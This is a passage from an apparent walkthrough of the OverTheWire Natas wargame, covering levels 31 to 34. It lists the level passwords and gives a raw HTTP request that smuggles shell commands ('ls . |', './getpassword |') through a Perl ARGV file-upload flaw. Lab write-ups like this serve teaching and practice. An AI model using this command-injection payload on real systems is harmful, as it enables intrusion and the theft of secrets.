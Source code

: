 
	The_Next_Lvl_Password: NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B

________________________________________________________________
Natas_31 -> Natas_32

	Solution: send this requests

```
POST /index.pl?ls%20.%20| HTTP/1.1
Host: natas32.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------22445608112295
Content-Length: 402
Authorization: Basic bmF0YXMzMjpubzF2b2hzaGVDYWl2M2llSDRlbTFhaGNoaXNhaW5nZQ==
Connection: close
Referer: http://natas32.natas.labs.overthewire.org/
Cookie: __cfduid=deb7210e17b7391f9dd3bd09811da4bfd1557733438
Upgrade-Insecure-Requests: 1

-----------------------------22445608112295
Content-Disposition: form-data; name="file"

ARGV
-----------------------------22445608112295
Content-Disposition: form-data; name="file"; filename="test.csv"
Content-Type: application/vnd.ms-excel


-----------------------------22445608112295
Content-Disposition: form-data; name="submit"

Upload
-----------------------------22445608112295--

```

	then change first line -> POST /index.pl?./getpassword%20| HTTP/1.1

	The_Next_Lvl_Password: 2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ

________________________________________________________________
Natas_32 -> Natas_33

	Solution: https://axcheron.github.io/writeups/otw/natas/#natas-33-solution

	The_Next_Lvl_Password: j4O7Q7Q5er5XFRCepmyXJaWCSIrslCJY

________________________________________________________________
Natas_33 -> Natas_34

 Congratulations! You have reached the end... for now. 

____________________________________________________________